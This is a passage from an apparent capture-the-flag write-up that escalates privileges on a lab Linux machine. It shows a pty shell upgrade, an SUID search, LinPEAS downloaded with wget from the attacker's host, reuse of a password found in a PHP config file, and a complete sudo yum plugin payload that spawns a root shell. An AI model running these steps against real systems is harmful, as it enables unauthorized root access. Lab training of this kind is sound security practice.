 Let's start by upgrading our shell with `python -c 'import pty; pty.spawn("/bin/bash")'
`. Looking around the file system, we find a directory belonging to `jjameson`, which we don't seem to have access to. Let's try escalating our privilege. Using `find / -perm -u=s -type f 2>/dev/null` to look for files with the SUID bit set, we find some candidates.

<center>

![83e467cfd5af8ddef71a1a5ca54f5986.png](../../_resources/83e467cfd5af8ddef71a1a5ca54f5986.png)

</center>

At this point, we check [GTFObins](https://gtfobins.github.io/) to see if we can leverage any of the binaries we found in our search. It doesn't look like this is the right approach. Let's instead use [LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) to search for possible privilege escalation methods on the target machine. Download the linpeas.sh file onto the attacking machine, spin up a webserver with `python3 -m http.server`, and download it onto the target machine using `wget <attacking IP>:8000/linpeas.sh`.

<center>

![def636cb01192ace178966359de736d8.png](../../_resources/def636cb01192ace178966359de736d8.png)

</center>

Here I saved the file to the `/tmp` directory so that I don't have to worry about write permissions.

<center>

![c394d08ab7b3fd4ae59b407365d2a84b.png](../../_resources/c394d08ab7b3fd4ae59b407365d2a84b.png)

</center>

Now use `chmod +x linpeas.sh` to mark the file as executable, then run it with `./linpeas.sh`. LinPEAS identifies the target as being vulnerable to [CVE-2021-4034](https://nvd.nist.gov/vuln/detail/CVE-2021-4034).

<center>

![b8eef301cc53017c0216622cf5cc7e2f.png](../../_resources/b8eef301cc53017c0216622cf5cc7e2f.png)

</center>

We also find a password in a public PHP config file.

<center>

![1a34e49fbe938a3d2f25ec3018589374.png](../../_resources/1a34e49fbe938a3d2f25ec3018589374.png)

</center>

Earlier we found a user named jjameson, so we can try using the password we just found so switch into his account.

<center>

![82bbb48b299ce44bf1c3993fad8b731e.png](../../_resources/82bbb48b299ce44bf1c3993fad8b731e.png)

</center>

Success! Navigating to jjameson's home directory gives us the `user.txt` flag.

Now we look for a way to escalate our privilege to obtain the root flag. Using `sudo -l` tells us that jjameson can run the yum binary with sudo privileges.

<center>

![23809e8f1de19246829b7a180af6c061.png](../../_resources/23809e8f1de19246829b7a180af6c061.png)

</center>

Going back to [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo), we see that yum does not drop elevated privileges when run as sudo. We can spawn a root shell with the following commands:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

(It may be easier to just copy and paste line-by-line directly from GTFOBins.)

As promised, we get a shell with root access which we then use to quickly find the `root.txt` flag.
 
<center>

![ad5d66d1a634cc31982f20b70c324841.png](../../_resources/ad5d66d1a634cc31982f20b70c324841.png)

![0b2f3894eda28b03b1003c5bad1b1f2c.png](../../_resources/0b2f3894eda28b03b1003c5bad1b1f2c.png)

</center>